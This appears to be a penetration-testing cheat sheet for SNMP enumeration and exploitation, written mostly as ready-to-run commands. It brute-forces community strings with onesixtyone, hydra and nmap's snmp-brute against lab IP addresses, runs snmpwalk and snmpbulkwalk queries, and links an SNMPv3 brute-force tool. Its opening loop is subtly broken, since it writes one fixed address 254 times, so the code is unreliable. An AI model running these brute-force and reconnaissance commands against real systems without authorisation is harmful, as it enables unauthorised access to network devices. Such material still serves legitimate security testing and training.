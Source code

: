 # SNMP Exploitation and Enumeration Cheatsheet

## Brute Force Community Strings

```bash
# Generate a list of IP addresses
for ip in $(seq 1 254); do echo 192.168.50.151; done > ips

# Use onesixtyone for brute forcing community strings
onesixtyone -c community -i ips
```

## SNMP Queries

### Normal Query

```bash
snmpwalk -c public -v1 -t 10 192.168.50.151
```

### Extended Query

```bash
snmpwalk -c public -v1 192.168.50.151 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```

### Supported Versions

- `-v1`
- `-v2c`
- `-v2u`
- `-v3`

## Nmap Scripts for SNMP

```bash
nmap -sU -p 161 --script=snmp-info 192.168.238.145
```

## Brute Force with Hydra

```bash
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 192.168.212.42 snmp
```

## SNMPv3 Brute Forcing

For SNMPv3, use the following tool:

- [SNMPv3 Brute Tool](https://github.com/applied-risk/snmpv3brute/blob/master/snmpv3brute.py)

## Nmap SNMP Brute Forcing

```bash
sudo nmap -sU -p 161 --script snmp-brute 192.168.212.42 --script-args snmp-brute.communitiesdb=/usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt
```

## Bulk Walk Example

```bash
sudo snmpbulkwalk -c public -v2c 192.168.238.145 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
